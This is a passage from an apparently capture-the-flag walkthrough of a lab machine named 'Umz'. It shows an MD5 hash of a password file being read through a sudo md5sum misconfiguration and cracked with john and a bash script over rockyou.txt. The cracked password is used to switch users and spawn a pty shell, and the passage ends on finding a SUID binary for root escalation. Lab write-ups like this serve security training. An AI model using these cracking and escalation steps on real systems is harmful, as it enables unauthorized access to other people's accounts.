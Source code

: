 ```shellscript
welcome@Umz:/opt/flask-debug$ sudo /usr/bin/md5sum umz.pass
a963fadd7fd379f9bc294ad0ba44f659  umz.pass
```


4. **Cracking the MD5 Hash:**
The MD5 hash `a963fadd7fd379f9bc294ad0ba44f659` was then cracked using `john` and the `rockyou.txt` wordlist. It was necessary to specify the format as `raw-md5` for `john` to correctly identify and crack the hash.

```shellscript
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Alternatively, a custom bash script was used to iterate through the wordlist and calculate MD5 hashes, comparing them to the target hash.

```shellscript
#!/bin/bash
wordlist="/usr/share/wordlists/rockyou.txt"
while IFS= read -r word || [ -n "$word" ]; do
    hash=$( echo "$word" | md5sum | awk '{print $1}' )
    if [ "$hash" == "a963fadd7fd379f9bc294ad0ba44f659" ]; then
        echo "Password Found : $word"
        exit 0
    fi
done < "$wordlist"
```

The password found was `sunshine3`.


5. **Switching to `umzyyds` User:**
Using the cracked password, the user `umzyyds` was accessed via `su`. A stable TTY shell was then spawned using Python.

```shellscript
welcome@Umz:/home$ su umzyyds
Password: sunshine3
umzyyds@Umz:/home$ python3 -c "import pty;pty.spawn('/bin/bash')"
```




### Privilege Escalation to Root

1. **Enumerating `umzyyds` Home Directory:**
In `umzyyds`'s home directory, a SUID binary named `Dashazi` was found.

```shellscript
umzyyds@Umz:~$ ls -la
total 96
drwx------ 2 umzyyds umzyyds  4096 May  3 10:42 .
drwxr-xr-x 4 root    root     4096 May  3 10:27 ..
lrwxrwxrwx 1 root    root        9 May  3 10:38 .bash_history -> /dev/null
-rw-r--r-- 1 umzyyds umzyyds   220 May  3 10:27 .bash_logout
-rw-r--r-- 1 umzyyds umzyyds  3526 May  3 10:27 .bashrc
-rwsr-sr-x 1 root    root    76712 May  3 10:42 Dashazi
-rw-r--r-- 1 umzyyds umzyyds   807 May  3 10:27 .profile
```

